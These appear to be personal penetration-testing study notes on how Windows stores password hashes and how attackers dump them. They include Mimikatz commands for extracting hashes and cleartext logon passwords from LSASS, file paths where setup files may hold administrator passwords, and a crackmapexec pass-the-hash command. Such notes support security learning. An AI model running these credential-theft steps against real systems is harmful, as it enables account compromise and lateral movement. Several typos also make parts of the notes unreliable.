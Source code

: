 - Hashed passwords are stored in SAM (Security Account Manager) database
- Authentication and verification is performed by Local Security Authority (LSA)
- Upto Server 2003
	- LM (disabled Vista onwards)
	- NTLM
- SAM can't be copied while OS is running
- Windows NT kernel keeps SAM db file locked.
	- Hence in-memory attacks need to used to dump SAM hashes from LSASS process
- In modern Windows, SAM db is encrypted with a syskey
- Elevated ppriv is required to access and interact with LSASS

## LM (LanMan)
- Password broken into two seven-char chuunks
- All chars converted to uppercase
- Each chunk hashed separated with DES algo
- It is weak as it does not have a salt

## NTLM 
- Collection of authentication protocols
- When user is created, it is encrypted using the MD4 hashing and the original password is disposed

## Password in Config Files
- Unattended Windows Setup utlility used to automate the mass installation/deployment of Windows systems
	- Uses Administrator's account password
	- Can be found in:
		```
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Autounattend.xml
		```

## Dumping Hashes w/ #tools/post/windows/Mimikatz
- Windows post exploitation tool
- Can be used to extract hashes from lsass.exe process memory
- There is a precompiled executable or we can use a meterpreter session and use Kiwi
- Need elevated privileges
### Manual Method
- Gain access to the machine with elevated privileges and upload the `mimikatz.exe` 
	```
	> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
	> .\mimikatz.exe
	> privilege::debug # should return OK
	> lsadump::sam # get hashes
	> lsadump::secret
	> sekurlsa::logonpasswords # clear text log on passwords
	```
### W/ Metasploit
![[Modules#Kiwi Module]]

## Pass the Hash Attack
- We can use #tools/exploit/multi/crackmapexec and #tools/exploit/psexec_py for this purpose
- Dump the hash as explained in [[Windows Credentials Dumping#Dumping Hashes w/ tools/post/windows/Mimikatz]]
- Take the TNLM hash that belongs to Administrator and use it with `psexec` ![[Modules#Psexec]]
- You can use #tools/exploit/multi/crackmapexec for the same as
	```
	# crackmapexec smb <target_ip> -u <username> -H <NTLM hash> -x "hash"
	```